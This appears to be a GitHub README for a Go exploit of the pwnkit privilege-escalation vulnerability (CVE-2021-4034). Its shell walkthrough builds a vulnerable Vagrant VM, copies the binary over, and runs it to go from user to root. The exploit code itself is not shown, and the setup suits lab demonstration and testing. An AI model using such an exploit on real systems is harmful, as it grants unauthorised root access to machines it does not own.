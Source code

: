 ### Pwnkit-go

This is a working exploit for the pwnkit vulnerability, CVE-2021-4034, written in Go

Give it a try:

```sh
# create a vulnerable vagrant machine
$ make vm
...

# build the binary and scp it to the vagrant box
$  make scp

# ssh onto the vagrant box
$ make ssh

vagrant@ubuntu-focal:/tmp$ whoami
vagrant

vagrant@ubuntu-focal:$ 
vagrant@ubuntu-focal:/tmp$ cd /tmp && ./pwnkit-go
$ whoami
root
```
